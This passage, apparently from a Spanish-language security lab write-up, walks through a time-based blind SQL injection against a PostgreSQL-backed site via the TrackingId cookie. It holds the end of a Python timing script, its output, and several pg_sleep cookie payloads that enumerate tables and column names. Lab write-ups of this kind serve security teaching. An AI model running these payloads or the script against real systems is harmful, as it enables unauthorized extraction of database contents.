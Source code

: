 ```
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                time_start = time.time()

                r = requests.get(url, cookies=cookies)

                time_end = time.time()

                if time_end - time_start > 2:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` las `tablas` del `esquema public`

```
# python sqli_time_based.py
[▝] Fuerza bruta: C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(table_name,', ') from information_schema.tables where table_schema='public'),38,1)='~') then p
[↑] Output: users,+tracking
```

`Desarrollamos` un `payload` para `obtener` la `longitud` de las `columnas` de la `tabla users`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(column_name,', ')+from+information_schema.columns+where+table_name='users'))>1)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD 
```

La `longitud` es de `25 caracteres`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(column_name,', ')+from+information_schema.columns+where+table_name='users'))=25)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD 
```

`Desarrollamos` este `payload` para `obtener` el `nombre` de las `columnas` de la `tabla users`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(substr((select+string_agg(column_name,', ')+from+information_schema.columns+where+table_name='users'),1,1)='a')+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD  
```

Con este `script` de `python` podemos `iterar` sobre el `payload anterior`
